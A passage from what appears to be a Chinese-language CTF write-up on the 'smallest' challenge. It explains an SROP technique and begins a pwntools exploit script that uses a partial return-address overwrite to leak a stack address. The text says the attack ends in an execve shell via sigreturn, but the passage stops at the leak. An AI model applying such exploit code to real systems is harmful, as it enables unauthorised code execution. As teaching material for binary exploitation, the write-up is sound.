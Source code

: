     此时栈情况如图<8>
    
    esp 指向我们写入的 syscall\_addr 地址，由于我们成功写入了 15 个字符，故此时的 eax 为 15，程序 ret 返回到 syscall\_addr 处进行系统调用，此时的系统调用号存储在 eax 正好是 15，调用 sigreturn，根据 frame 设定的结构，程序接下来会执行 system(execve)
    
    [![](assets/1701678439-7fe291ad1049dec00eac371ee4ba46d9.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231129205213-1e4c11d6-8eb6-1.jpg)
    
-   完整 exp
    
    ```bash
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次 main_addr 是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #gdb.attach(p)
    #程序成功将三个地址写入栈中，此时执行 ret 后将程序返回至 main_addr，而 esp 指向第二个 main_addr
    #进行新一轮的 read，发送 3 的目的是将当前 esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的 0x04000B0 会变成 0x04000B3，这个地址正好对应的是 mov  edx, 400h，跳过了 xor rax,rax(将 rax 的值变成 0)，read 函数的特性，写入了一个字符后，将写入的长度存放在 rax，也就是为 1，接着执行到 ret，将程序返回至 0x04000B3，此时 esp 指向的是刚开始的第三个 main_addr
    #由于 rax 里面的值为 1，正好是 write 函数的系统调用号，也就意味着接下来执行的是 write 函数，而需要输出的首地址是 esp，此时第一个存放的是 main_addr，接下来的 8 到 16 就是我们需要得到的地址
    #输出地址后，程序执行 ret，此时程序又返回到 main_addr，程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    